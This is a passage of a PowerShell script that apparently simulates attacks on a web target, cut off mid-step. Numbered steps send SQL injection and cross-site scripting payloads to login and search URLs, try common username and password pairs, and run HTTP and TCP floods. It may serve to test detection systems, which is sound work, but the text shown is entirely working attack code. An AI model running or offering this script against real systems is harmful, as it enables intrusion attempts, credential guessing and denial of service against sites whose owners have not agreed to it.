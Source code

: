 ```powershell
Start-Sleep -Seconds 2

# Attack 2: Web Application - SQL Injection
Write-Host "[2/6] Web Attack - SQL Injection..." -ForegroundColor Yellow
$sqli = @("' OR '1'='1", "admin'--", "1' OR 1=1--")
foreach ($payload in $sqli) {
    try {
        $url = "$webTarget/login?user=$([uri]::EscapeDataString($payload))"
        Invoke-WebRequest -Uri $url -TimeoutSec 1 -ErrorAction Stop
    } catch {
        Write-Host "  Sent: $payload" -ForegroundColor Gray
    }
}
Start-Sleep -Seconds 2

# Attack 3: Web Application - XSS
Write-Host "[3/6] Web Attack - Cross-Site Scripting..." -ForegroundColor Yellow
$xss = @("<script>alert('XSS')</script>", "<img src=x onerror=alert('XSS')>")
foreach ($payload in $xss) {
    try {
        $url = "$webTarget/search?q=$([uri]::EscapeDataString($payload))"
        Invoke-WebRequest -Uri $url -TimeoutSec 1 -ErrorAction Stop
    } catch {
        Write-Host "  Sent: $payload" -ForegroundColor Gray
    }
}
Start-Sleep -Seconds 2

# Attack 4: Brute Force - Multiple Login Attempts
Write-Host "[4/6] Brute Force - Login Attempts..." -ForegroundColor Yellow
$users = @("admin", "root", "user", "test")
$passwords = @("password", "123456", "admin", "letmein")
foreach ($user in $users) {
    foreach ($pass in $passwords) {
        try {
            $url = "$webTarget/login?user=$user&pass=$pass"
            Invoke-WebRequest -Uri $url -TimeoutSec 1 -ErrorAction Stop
        } catch {
            Write-Host "  Tried: $user:$pass" -ForegroundColor Gray
        }
    }
}
Start-Sleep -Seconds 2

# Attack 5: DDoS - HTTP Flood
Write-Host "[5/6] DDoS - HTTP Flood..." -ForegroundColor Yellow
for ($i = 1; $i -le 100; $i++) {
    try {
        Invoke-WebRequest -Uri $webTarget -TimeoutSec 1 -ErrorAction Stop | Out-Null
    } catch {
        # Expected
    }
    if ($i % 20 -eq 0) {
        Write-Host "  Sent $i requests" -ForegroundColor Gray
    }
}
Start-Sleep -Seconds 2

# Attack 6: TCP Connection Flood
Write-Host "[6/6] Network - TCP Flood..." -ForegroundColor Yellow
for ($i = 1; $i -le 50; $i++) {
    try {
        $tcp = New-Object System.Net.Sockets.TcpClient
```